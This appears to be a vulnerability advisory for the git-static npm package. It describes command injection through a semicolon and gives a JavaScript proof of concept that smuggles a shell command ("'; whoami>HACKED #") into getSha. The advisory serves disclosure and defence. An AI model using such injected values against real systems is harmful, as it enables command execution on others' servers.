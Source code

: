 # Overview

git-static is a versioned static file server backed by Git.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the exported functions.
Create a bare git `repository` and set the `--repository` flag to that directory when starting the server. Code will be executed inside the `repository`.

# Proof of Concept

```javascript
var fs = require("fs");

var express = require("express"),
    optimist = require("optimist"),
    gitstatic = require("git-static");

var argv = optimist.usage("Usage: $0")
    .options("h", {
      alias: "help",
      describe: "display this help text"
    })
    .options("repository", {
      default: ".git",
      describe: "path to bare git repository"
    })
    .options("port", {
      default: 3000,
      describe: "http port"
    })
    .check(function(argv) {
      if (argv.help) throw "";
      try { var stats = fs.statSync(argv.repository); } catch (e) { throw "Error: " + e.message; }
      if (!stats.isDirectory()) throw "Error: invalid --repository directory.";
    })
    .argv;

var server = express();

server.get(/^\/.*/, gitstatic.getSha(argv.repository, " '; whoami>HACKED #", function(error){
    console.log(error);
}));

server.listen(argv.port);
```
